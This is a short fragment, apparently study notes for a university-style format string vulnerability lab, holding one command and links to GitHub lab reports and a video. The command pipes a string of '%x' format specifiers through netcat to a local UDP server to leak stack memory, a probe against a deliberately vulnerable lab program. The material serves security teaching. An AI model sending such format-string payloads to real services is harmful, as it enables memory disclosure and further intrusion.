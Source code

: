 echo $(printf "@@@@").%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x | nc -u 127.0.0.1 9090


https://github.com/MeghaJakhotia/ComputerSecurityAttacks/blob/master/Format%20String/Lab%20%238.pdf

https://github.com/aasthayadav/CompSecAttackLabs/blob/master/7.%20Format%20String%20Vulnerability/Lab%207%20Format%20String%20Vulnerability.pdf

https://github.com/cappetta/seedlabs-csc643/tree/master/lab4-formatString

YOUTUBE - https://www.youtube.com/watch?v=uOndsw3008M

